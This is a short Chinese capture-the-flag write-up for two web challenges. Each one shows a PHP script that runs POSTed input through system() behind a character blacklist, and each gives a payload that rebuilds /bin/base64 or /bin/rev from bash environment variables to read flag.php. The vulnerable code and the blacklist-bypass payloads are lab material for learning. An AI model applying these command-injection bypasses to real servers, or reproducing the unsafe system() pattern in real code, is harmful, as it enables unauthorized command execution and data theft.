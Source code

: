 ```php
```

## web120

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}
白名单：
ABCDEFGHIJKLMNOPQRSTUVWXYZ$}{_:?.~空格
```

思路依旧是环境变量

```php
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```

## web121

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}
这题将SHLVL禁掉了，只能另寻他法，可以使用${#RANDOM}获取4来进行/bin/base64 flag.php的执行
POC:
code=${PWD::${##}}???${PWD::${##}}?????${#RANDOM} ????.???

或者
${PWD::${#?}}???${PWD::${#?}}${PWD:${#IFS}:${#?}}?? ????.???
构造的是/bin/rev
```